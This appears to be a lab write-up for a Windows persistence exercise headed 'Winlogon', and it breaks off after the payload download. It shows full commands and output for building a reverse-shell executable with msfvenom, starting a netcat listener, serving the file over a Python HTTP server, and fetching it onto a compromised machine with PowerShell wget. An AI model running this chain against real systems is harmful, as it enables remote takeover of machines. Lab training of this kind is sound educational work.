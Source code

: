 
#
## Winlogon

1. Started up this task's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <PAYLOAD NAME>.exe` from our Linux attack machine to use Metasplout's msfvenom to generate a Windows executable for a reverse shell payload that we'll execute on the compromised Windows machine
```Bash
root@ip-10-10-157-221:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.157.221 LPORT=9999 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
```
3. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener that'll listen for inbound connections
```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
4. `sudo python3 -m http.server` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
5. `PowerShell` from the compromised Windows machine
```PowerShell
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `wget http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME>.exe -O <PAYLOAD NAME>.exe` from the compromised Windows machine to download our payload from our attack machine and save it under a different name 
```PowerShell
PS C:\Users\Administrator> wget http://10.10.157.221:8000/revshell.exe -O revshell.exe
```
7. `dir` from the compromised Windows machine display the files and directories that are in our current working directory to verify if the payload has been successfully downloaded from our attack machine, which it has
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
```